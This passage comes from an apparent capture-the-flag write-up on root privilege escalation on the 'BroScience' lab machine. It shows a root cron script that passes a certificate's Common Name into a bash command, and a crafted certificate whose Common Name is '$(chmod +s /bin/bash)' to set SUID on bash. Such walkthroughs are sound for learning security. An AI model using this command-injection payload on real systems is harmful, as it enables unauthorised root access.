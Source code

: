 ```bash
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
fi
```

This could potentially be a cronjob that is running, so I downloaded and ran `pspy64` to make sure. We would see the root user running this:

```bash
/bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt
```

Very obviously, the `commonName` parameter is where we would store our payload to become root. We can use `openssl` to generate a quick cert to exploit this and create an SUID bash binary. We can leave all the other parameters blank except for the Common Name.&#x20;

```
bill@broscience:~/Certs$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt
Generating a RSA private key
.....................................................................................++++
....................++++
writing new private key to 'broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(chmod +s /bin/bash)
Email Address []:
```